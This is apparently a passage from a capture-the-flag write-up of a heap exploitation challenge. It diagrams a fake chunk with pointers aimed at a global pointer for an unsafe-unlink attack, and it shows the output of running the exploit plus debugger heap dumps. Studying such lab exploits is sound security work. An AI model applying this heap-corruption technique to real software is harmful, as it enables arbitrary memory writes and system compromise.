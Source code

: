 The fake chunk, if seen visually looks like:-

```asm
-------------------------------------
|    0                  |     0     |
-------------------------------------
|          global_ptr - 0x18        |
-------------------------------------
|          global_ptr - 0x10        |
-------------------------------------
|                                   |
|              XXXXXXXXXX           |
|                                   |
-------------------------------------
|   0x80         |         0x90     |
------------------------------------
```

Now, running the exploit:-

```asm
0 [08:31:09] vagrant@oracle(oracle) HackTheBox> python3 chapter1.py 
[+] Starting program './chapter1': PID 2777
[*] Analyzing /media/sf_Pwning/HackTheBox/chapter1
[*] Analyzing /home/vagrant/tools/LibcSearcher/libc-database/db/libc6_2.23-0ubuntu10_amd64.so
[*] Created 5 chunks of size: 0x88
[*] Paused [Press any key to continue]
[*] Preparing a fake chunk...
[*] Fake chunk:
    00000000:  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
    00000010:  c0 20 60 00 00 00 00 00  c8 20 60 00 00 00 00 00  |. `...... `.....|
    00000020:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000030:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000040:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000050:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000060:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000070:  58 58 58 58 58 58 58 58  58 58 58 58 58 58 58 58  |XXXXXXXXXXXXXXXX|
    00000080:  80 00 00 00 00 00 00 00                           |........|
[*] Editing chunk 3 with a fakr chunk

[..snip..]


gef➤  heap chunks
Chunk(addr=0x230a010, size=0x90, flags=PREV_INUSE)
    [0x000000000230a010     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x230a0a0, size=0x90, flags=PREV_INUSE)
    [0x000000000230a0a0     42 42 42 42 42 42 42 42 42 42 42 42 42 42 42 42    BBBBBBBBBBBBBBBB]
Chunk(addr=0x230a130, size=0x90, flags=PREV_INUSE)
    [0x000000000230a130     43 43 43 43 43 43 43 43 43 43 43 43 43 43 43 43    CCCCCCCCCCCCCCCC]
Chunk(addr=0x230a1c0, size=0x90, flags=PREV_INUSE)
    [0x000000000230a1c0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x230a250, size=0x90, flags=)
    [0x000000000230a250     45 45 45 45 45 45 45 45 45 45 45 45 45 45 45 45    EEEEEEEEEEEEEEEE]

gef➤  x/49xg 0x230a1c0 - 0x10
0x230a1b0:	0x4343434343434343	0x0000000000000091
0x230a1c0:	0x0000000000000000	0x0000000000000000
0x230a1d0:	0x00000000006020c0	0x00000000006020c8
0x230a1e0:	0x5858585858585858	0x5858585858585858
0x230a1f0:	0x5858585858585858	0x5858585858585858
0x230a200:	0x5858585858585858	0x5858585858585858
0x230a210:	0x5858585858585858	0x5858585858585858
0x230a220:	0x5858585858585858	0x5858585858585858
0x230a230:	0x5858585858585858	0x5858585858585858
```